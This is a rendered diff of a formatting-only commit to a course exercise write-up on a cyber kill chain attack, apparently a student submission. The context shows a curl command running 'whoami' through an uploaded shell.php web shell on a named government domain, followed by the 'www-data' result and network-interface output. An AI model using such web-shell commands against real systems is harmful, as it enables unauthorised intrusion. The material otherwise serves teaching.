

Before and after one commit to dvazquez1981/ceiot_base, a Markdown page: CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
+++ b/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
@@ -699,11 +699,11 @@ resultado:
     curl -k "https://siper.vialidad.gob.ar/tmp/uploads/shell.php?cmd=whoami"
    ```
 
-   respuesta:
-   ```text
 
-   Resultado exitoso: www-data
-   ```
+   Resultado exitoso:
+    ```text
+     www-data
+    ```
 
 
    Verificación de conectividad de red:
@@ -713,6 +713,7 @@ resultado:
    ```
 
     repuesta:
+
     ```text
         2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
         link/ether 52:54:00:12:34:56 brd ff:ff:ff:ff:ff:ff
````
